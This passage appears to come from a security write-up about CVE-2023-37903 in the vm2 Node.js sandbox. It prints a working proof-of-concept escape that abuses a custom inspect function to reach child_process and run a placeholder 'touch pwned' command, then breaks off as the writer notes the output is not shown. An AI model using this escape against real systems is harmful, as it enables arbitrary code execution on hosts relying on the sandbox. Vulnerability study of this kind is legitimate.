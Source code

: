![](/img/image-20240403195800662.png)

#### CVE-2023-37903

[CVE-2023-37903](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823)
abuses how NodeJS allows for a custom `inspect` function to be defined:



    const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

    obj = {
        [customInspectSymbol]: (depth, opt, inspect) => {
            inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
        },
        valueOf: undefined,
        constructor: undefined,
    }

    WebAssembly.compileStreaming(obj).catch(()=>{});



This POC has the same issue that I need to change the payload from
`touch pwned` to something else, but even then, it doesn't show the
result:
